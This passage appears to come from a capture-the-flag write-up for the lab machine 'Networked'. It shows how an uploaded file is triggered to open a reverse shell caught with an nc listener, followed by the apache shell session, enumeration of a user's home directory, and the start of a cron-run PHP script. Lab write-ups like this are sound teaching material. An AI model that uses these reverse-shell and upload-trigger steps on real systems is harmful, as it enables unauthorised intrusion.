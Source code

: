 If you navigate to <b>http://10.10.10.146/photos.php</b> then you should see our uploaded file. Now before we trigger the shell we need to set up our <b>nc</b> listener.

![photos.png](../../resources/6ca33925e1854a7eb30e4cf5d7513462.png)

To trigger the shell navigate to <b>https://10.10.10.146/uploads/{name of file}</b>. If done correctly you should see a shell open

```
# nc -lvnp 10000
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::10000
Ncat: Listening on 0.0.0.0:10000
Ncat: Connection from 10.10.10.146.
Ncat: Connection from 10.10.10.146:39074.
Linux networked.htb 3.10.0-957.21.3.el7.x86_64 #1 SMP Tue Jun 18 16:35:19 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 17:49:42 up 25 min,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
sh: no job control in this shell
sh-4.2$
```
If we do a quick <b>whoami</b> it shows that we have a low privileged shell as the user <b>apache</b>. If we navigate to <b>/home/user/guly</b> then we can see the user.txt file but we are unable to read it. There are also a couple of other interesting files in the home directory
```
sh-4.2$ whoami
whoami
apache

sh-4.2$ ls /home/guly
ls /home/guly
check_attack.php
crontab.guly
user.txt
```
Reading the <b>crontab.guly</b> and the <b>check_attack.php</b> file there are a few things we should note. The <b>crontab.guly</b> is telling us that there is a cronjob running every 3 minutes that executes <b>check_attack.php</b>. The <b>check_attack.php</b> file basically reads every file in the <b>/var/www/html/uploads</b> directory and then deletes it.
```
bash-4.2$ cat crontab.guly
*/3 * * * * php /home/guly/check_attack.php

bash-4.2$ cat check_attack.php
<?php
require '/var/www/html/lib.php';
$path = '/var/www/html/uploads/';
$logpath = '/tmp/attack.log';
$to = 'guly';
$msg= '';
$headers = "X-Mailer: check_attack.php\r\n";
```